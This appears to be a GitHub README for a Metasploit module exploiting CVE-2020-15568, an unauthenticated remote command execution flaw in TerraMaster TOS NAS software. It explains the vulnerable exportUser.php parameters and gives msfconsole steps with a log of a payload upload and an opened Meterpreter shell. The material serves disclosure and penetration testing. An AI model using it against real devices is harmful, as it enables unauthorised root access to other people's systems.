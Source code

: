 # TerraMaster TOS CVE-2020-15568
 Repository for CVE-2020-15568 Metasploit module

## Vulnerable Application

### Description

A dynamic class method invocation vulnerability exists in file include/exportUser.php which leads to executing remote commands on TerraMaster devices with root privileges.
The vulnerable file requires several HTTP GET parameters to be provided in order to reach method call and exploit this vulnerability. On first line application includes app.php which autoloads relevant core classes of TOS software.
The application decides operation based on value of GET parameter type. If value of type variable is something different than 1 or 2, then it’s possible to reach vulnerable code.
Source code of exportUser.php, application requires HTTP GET parameters cla (shorthand for class), func and opt.
        
During code review of other files as well, it has been found that there is a way to exploit this issue with pre-existing classes in TOS software.
PHP Class located in include/class/application.class.php is best candidate to execute commands on devices that runs TOS software.
Since exportUser.php has no authentication controls, it’s possible for unauthenticated attacker to reach code Execution

## Verification Steps

  1. Set-up your TerraMaster NAS with TOS version 4.1.24 or below
  2. Start msfconsole
  3. Do: `use exploit/multi/http/terramaster_command_exec`
  4. Do `set rhost 192.168.1.27`
  4. Do: `check`
```
[+] 192.168.1.27:80 - The target is vulnerable.
```

## Targets

```
Exploit targets:
   Id  Name
   --  ----
   0   Auto
```


## Scenarios
```
msf5 > use exploit/multi/http/terra_master_command_exec 
msf5 exploit(exploit/multi/http/terramaster_command_exec) > set rhost 192.168.1.27
rhost => 192.168.1.27
msf5 exploit(multi/http/terramaster_command_exec) > run
[+] Payload uploaded to /logs/FJETBHLL/.vatw.php
[+] Payload successfully triggered !
[*] Started bind TCP handler against 192.168.1.27:9090
[*] Sending stage (38288 bytes) to 192.168.1.27
[*] Meterpreter session 1 opened (0.0.0.0:0 -> 192.168.1.27:9090) at 2020-07-23 09:49:34 +0300
meterpreter > 
